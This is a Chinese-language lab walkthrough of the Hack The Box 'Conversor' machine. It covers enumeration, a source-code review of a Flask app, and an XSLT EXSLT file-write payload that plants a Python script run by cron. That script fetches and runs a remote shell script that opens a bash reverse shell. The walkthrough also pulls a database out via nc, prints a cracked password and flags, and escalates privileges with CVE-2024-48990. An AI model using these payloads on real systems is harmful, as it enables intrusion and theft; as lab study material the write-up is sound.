





端口扫描 1 2 3 4 5 6 7 8 9 10 11 ┌──(kali㉿kali)-[~/HTB/conversor] └─$ sudo nmap -p- --min-rate 10000 10.10.11.92 -oA ports Starting Nmap 7.95 ( https://nmap.org ) Nmap scan report for conversor.htb (10.10.11.92) Host is up (0.072s latency). Not shown: 65531 closed tcp ports (reset) PORT STATE SERVICE 22/tcp open ssh 80/tcp open http Nmap done : 1 IP address (1 host up) scanned in 7.50 seconds
web渗透 访问靶机的 80 端口，域名为 conversor.htb ，将其加入到 /etc/hosts 之后访问该网站。

是个登录页面，但是有 register 的按钮，可以注册一个账号。
注册好一个账号，用该账号进行登录：

上面说你可以上传一个 XML 文件和 XSLT 文件，这个网站可以把 XML 文件转换成更加美观的样子。
所以现在我们有了一个文件上传的接口，可以尝试普通的文件上传的打法，尝试之后无果。
页面上可以下载一个 template 文件，这是一个 xslt 文件，文件的内容也没有透露有用的信息。
尝试进目录扫描：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 ┌──(kali㉿kali)-[~/HTB/conversor] └─$ dirsearch -u "http://conversor.htb" /usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html from pkg_resources import DistributionNotFound, VersionConflict _|. _ _ _ _ _ _|_ v0.4.3 (_||| _) (/_(_|| (_| ) Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460 Output File: /home/kali/HTB/conversor/reports/http_conversor.htb/_25-12-04_19-45-31.txt Target: http://conversor.htb/ [19:45:31] Starting: [19:45:38] 200 - 3KB - /about [19:45:54] 301 - 319B - /javascript -> http://conversor.htb/javascript/ [19:45:54] 404 - 275B - /javascript/editors/fckeditor [19:45:54] 404 - 275B - /javascript/tiny_mce [19:45:56] 200 - 722B - /login [19:46:02] 200 - 726B - /register [19:46:03] 403 - 278B - /server-status/ [19:46:03] 403 - 278B - /server-status
扫描发现有个 about 的路由，尝试访问：
该页面介绍了一下构建网站团队，并且有个 Download Source Code 的按钮，意味着我们应该可以下载网站的源代码。
下载之后确实是个网站源代码文件的压缩包，主要有两个重要的文件，一个为 app.py 文件：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 128 129 130 131 132 133 134 from flask import Flask, render_template, request, redirect, url_for, session, send_from_directoryimport os, sqlite3, hashlib, uuidapp = Flask(__name__) app.secret_key = 'Changemeplease' BASE_DIR = os.path.dirname(os.path.abspath(__file__)) DB_PATH = '/var/www/conversor.htb/instance/users.db' UPLOAD_FOLDER = os.path.join(BASE_DIR, 'uploads' ) os.makedirs(UPLOAD_FOLDER, exist_ok=True ) def init_db (): os.makedirs(os.path.join(BASE_DIR, 'instance' ), exist_ok=True ) conn = sqlite3.connect(DB_PATH) c = conn.cursor() c.execute('''CREATE TABLE IF NOT EXISTS users ( id INTEGER PRIMARY KEY AUTOINCREMENT, username TEXT UNIQUE, password TEXT )''' ) c.execute('''CREATE TABLE IF NOT EXISTS files ( id TEXT PRIMARY KEY, user_id INTEGER, filename TEXT, FOREIGN KEY(user_id) REFERENCES users(id) )''' ) conn.commit() conn.close() init_db() def get_db (): conn = sqlite3.connect(DB_PATH) conn.row_factory = sqlite3.Row return conn @app.route('/' def index (): if 'user_id' not in session: return redirect(url_for('login' )) conn = get_db() cur = conn.cursor() cur.execute("SELECT * FROM files WHERE user_id=?" , (session['user_id' ],)) files = cur.fetchall() conn.close() return render_template('index.html' , files=files) @app.route('/register' , methods=['GET' ,'POST' ] def register (): if request.method == 'POST' : username = request.form['username' ] password = hashlib.md5(request.form['password' ].encode()).hexdigest() conn = get_db() try : conn.execute("INSERT INTO users (username,password) VALUES (?,?)" , (username,password)) conn.commit() conn.close() return redirect(url_for('login' )) except sqlite3.IntegrityError: conn.close() return "Username already exists" return render_template('register.html' ) @app.route('/logout' def logout (): session.clear() return redirect(url_for('login' )) @app.route('/about' def about (): return render_template('about.html' ) @app.route('/login' , methods=['GET' ,'POST' ] def login (): if request.method == 'POST' : username = request.form['username' ] password = hashlib.md5(request.form['password' ].encode()).hexdigest() conn = get_db() cur = conn.cursor() cur.execute("SELECT * FROM users WHERE username=? AND password=?" , (username,password)) user = cur.fetchone() conn.close() if user: session['user_id' ] = user['id' ] session['username' ] = username return redirect(url_for('index' )) else : return "Invalid credentials" return render_template('login.html' ) @app.route('/convert' , methods=['POST' ] def convert (): if 'user_id' not in session: return redirect(url_for('login' )) xml_file = request.files['xml_file' ] xslt_file = request.files['xslt_file' ] from lxml import etree xml_path = os.path.join(UPLOAD_FOLDER, xml_file.filename) xslt_path = os.path.join(UPLOAD_FOLDER, xslt_file.filename) xml_file.save(xml_path) xslt_file.save(xslt_path) try : parser = etree.XMLParser(resolve_entities=False , no_network=True , dtd_validation=False , load_dtd=False ) xml_tree = etree.parse(xml_path, parser) xslt_tree = etree.parse(xslt_path) transform = etree.XSLT(xslt_tree) result_tree = transform(xml_tree) result_html = str (result_tree) file_id = str (uuid.uuid4()) filename = f"{file_id} .html" html_path = os.path.join(UPLOAD_FOLDER, filename) with open (html_path, "w" ) as f: f.write(result_html) conn = get_db() conn.execute("INSERT INTO files (id,user_id,filename) VALUES (?,?,?)" , (file_id, session['user_id' ], filename)) conn.commit() conn.close() return redirect(url_for('index' )) except Exception as e: return f"Error: {e} " @app.route('/view/<file_id>' def view_file (file_id ): if 'user_id' not in session: return redirect(url_for('login' )) conn = get_db() cur = conn.cursor() cur.execute("SELECT * FROM files WHERE id=? AND user_id=?" , (file_id, session['user_id' ])) file = cur.fetchone() conn.close() if file: return send_from_directory(UPLOAD_FOLDER, file['filename' ]) return "File not found"
可以看到这个网站是用 Flask 搭建的。
同时还有一个 install.md ：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 To deploy Conversor, we can extract the compressed file: """ tar -xvf source_code.tar.gz """ We install flask: """ pip3 install flask """ We can run the app.py file: """ python3 app.py """ You can also run it with Apache using the app.wsgi file. If you want to run Python scripts (for example, our server deletes all files older than 60 minutes to avoid system overload), you can add the following line to your /etc/crontab. """ * * * * * www-data for f in /var/www/conversor.htb/scripts/*.py; do python3 "$f"; done """
从 app.py 里我们可以看到，跟我们上传的 XSLT 文件有关的主要代码为：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 from lxml import etree xml_path = os.path.join(UPLOAD_FOLDER, xml_file.filename) xslt_path = os.path.join(UPLOAD_FOLDER, xslt_file.filename) xml_file.save(xml_path) xslt_file.save(xslt_path) try : parser = etree.XMLParser(resolve_entities=False , no_network=True , dtd_validation=False , load_dtd=False ) xml_tree = etree.parse(xml_path, parser) xslt_tree = etree.parse(xslt_path) transform = etree.XSLT(xslt_tree) result_tree = transform(xml_tree) result_html = str (result_tree) file_id = str (uuid.uuid4()) filename = f"{file_id} .html"
可以看到，网站后台是用 lxml 这个 python 包来对我们上传的文件进行处理的。
所以，我们可以尝试收集信息看看 lxml 这个 python 包有没有漏洞可以利用。
但在尝试寻找漏洞之前，我们最好先搞清楚 xml 和 xslt 是干嘛用的。
简单来说，xml 是一种用于存储和传输数据的标记语言，xslt 是一种将XML文档转换为其他格式的语言。我们要上传的 xml 文件和 xslt 文件的关系就好像是 html 和 css 的关系，xslt 文件是 xml 文件的一种样式表。
之后尝试寻找 lxml 这个 python 包的漏洞，但没有寻找到可以利用的。
于是我尝试搜索 lxml 的手册，发现了这个网站 ，里面写着这样一段话：
1 2 3 4 5 By default, XSLT supports all extension functions from libxslt and libexslt as well as Python regular expressions through EXSLT. Some extensions enable style sheets to read and write files on the local file system. 默认情况下，XSLT支持libxslt和libexslt的所有扩展函数，以及通过EXSLT支持Python正则表达式。 一些扩展允许样式表在本地文件系统上读取和写入文件。
意思是我们好像可以通过 XSLT 来控制本地文件，包括读文件和写文件。
前面的测试当中，我已经尝试使用 document 来读取靶机上的本地文件，但对面都报错了。
这里也放一下用 XSLT 读取文件的 payload：
1 2 3 4 5 6 7 8 9 10 <xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform"> <xsl:template match="/"> <html> <!-- 尝试读取应用目录下的文件 --> <xsl:copy-of select="document('../../instance/users.db')"/> <xsl:copy-of select="document('../templates/index.html')"/> <xsl:copy-of select="document('app.py')"/> </html> </xsl:template> </xsl:stylesheet>
读取文件不通，我们可以尝试写文件。而且，前面下载的源代码里面的 install.md 告诉了我们一个重要的信息：
1 * * * * * www-data for f in /var/www/conversor.htb/scripts/*.py; do python3 "$f"; done
看上去靶机上面有个自动任务，这个自动任务会执行 /var/www/conversor.htb/scripts/ 这个目录里面的所有 .py 文件。因此，我们可以尝试写 python 文件到这个目录，然后等待自动任务去执行。
网上搜索 xslt 如何用 extension 来写入文件，找到了这样一个网站 ，他给了我一个写文件的 payload：
1 2 3 4 5 6 7 8 9 10 11 12 <?xml version="1.0" encoding="UTF-8"?> <xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:exploit="http://exslt.org/common" extension-element-prefixes="exploit" version="1.0"> <xsl:template match="/"> <exploit:document href="evil.txt" method="text"> Hello World! </exploit:document> </xsl:template> </xsl:stylesheet>
于是我尝试利用这个 payload 来写入 python 文件：
1 2 3 4 5 6 7 8 9 10 11 12 13 <?xml version="1.0" encoding="UTF-8"?> <xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:exploit="http://exslt.org/common" extension-element-prefixes="exploit" version="1.0"> <xsl:template match="/"> <exploit:document href="/var/www/conversor.htb/scripts/123.py" method="text"> import os os.system("curl http://<IP>:<PORT>/123.txt | sh") </exploit:document> </xsl:template> </xsl:stylesheet>
在写 pyload 的时候需要注意 python 代码要在 xslt 文件里面顶格写，因为前面的空格似乎也会被写入到 python 文件当中，可能会引起在靶机上执行时的 python 格式错误，导致无法执行。
以下是本地的 123.txt 文件的内容：
1 /bin/bash -c "/bin/bash -i >&/dev/tcp/<IP>/1234 0>&1"
获取立足点 利用上述的 payload 写成 xslt 文件，再把该文件和任意一个 xml 文件上传上去，布置好 python3 -m http.server 和 nc -nvlp 1234 之后，我们就收到了靶机的反弹 shell：
1 2 3 4 5 6 7 8 9 10 ┌──(kali㉿kali)-[~/HTB/conversor] └─$ nc -nvlp 1234 Listening on 0.0.0.0 1234 Connection received on 10.10.11.92 34746 bash: cannot set terminal process group (13237): Inappropriate ioctl for device bash: no job control in this shell www-data@conversor:~$ whoami whoami www-data www-data@conversor:~$
提权 目前是 www-data 用户，前面在 app.py 里面我们看到有一个数据库文件 /var/www/conversor.htb/instance/users.db ，我们尝试拿到本地来查看数据库的内容。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 ┌──(kali㉿kali)-[~/HTB/conversor] └─$ nc -nvlp 3456 >users.db Listening on 0.0.0.0 3456 Connection received on 10.10.11.92 58312 ^C ┌──(kali㉿kali)-[~/HTB/conversor] └─$ file users.db users.db: SQLite 3.x database, last written using SQLite version 3037002, file counter 26, database pages 6, cookie 0x2, schema 4, UTF-8, version-valid-for 26 ┌──(kali㉿kali)-[~/HTB/conversor] └─$ sqlite3 users.db SQLite version 3.46.1 2024-08-13 09:16:08 Enter ".help" for usage hints. sqlite> .tables files users sqlite> select * from users ; 1|fismathack|5b5c3ac3a1c897c94caad48e6c71fdec 5|123|827ccb0eea8a706c4c34a16891f84e7b 6|1234|81dc9bdb52d04dc20036dbd8313ed055 7|0irvana|213cadd9e40a49e44c456948a5bb60b8 8|test123|cc03e747a6afbbcbf8be7668acfebee5 sqlite>
我们可以看到有几个用户名和密码，查看靶机上的 /home 目录发现，fismathack 这个用户存在，因此这里可能会有密码复用的问题。
用 crackstation 破解出了 fismathack 用户的密码：

密码为 Keepmesafeandwarm ，尝试用该用户名和密码 ssh 登录：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 ┌──(kali㉿kali)-[~/HTB/conversor] └─$ ssh fismathack@conversor.htb The authenticity of host 'conversor.htb (10.10.11.92)' can't be established. ED25519 key fingerprint is SHA256:xCQV5IVWuIxtwatNjsFrwT7VS83ttIlDqpHrlnXiHR8. This key is not known by any other names. Are you sure you want to continue connecting (yes/no/[fingerprint])? yes Warning: Permanently added ' conversor.htb' (ED25519) to the list of known hosts. fismathack@conversor.htb' s password: Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-160-generic x86_64) * Documentation: https://help.ubuntu.com * Management: https://landscape.canonical.com * Support: https://ubuntu.com/pro System information as of Fri Dec 5 04:56:18 AM UTC 2025 System load: 0.0 Processes: 242 Usage of /: 68.0% of 5.78GB Users logged in : 0 Memory usage: 8% IPv4 address for eth0: 10.10.11.92 Swap usage: 0% fismathack@conversor:~$
登录成功了。获取 user flag：
1 9cdbeb7393d0899f9726865954b9b4de
进行 sudo -l ，发现当前用户可以执行一个叫 needrestart 的程序：

用 file /usr/sbin/needrestart 查看该文件的基本信息，他说是 Perl script text executable 。尝试查看了该文件的内容，但是非常的长。
想到这个文件可能并不是单独为了这台靶机才写的，尝试在网上寻找关于该文件的信息。
确实找到了关于该文件的简短介绍：
1 NeedRestart 是一个由 liske 开发的开源工具，旨在解决在软件更新或者库依赖变更后，自动检测并提示哪些系统服务或应用需要重启以应用更改的问题。这个工具对于维护大型系统环境或者频繁进行软件升级的开发者来说尤为重要，它简化了系统管理任务，确保了配置更改能够被正确地应用。
并且还找到了一个该文件存在的现成的漏洞 CVE-2024-48990。
利用了 github 上的这个 payload ，成功获得了 root 的 shell，并且获得了 root flag ：

(PS:记得在本地的 kali 上编译完再上传到靶机上使用，靶机上没有 gcc )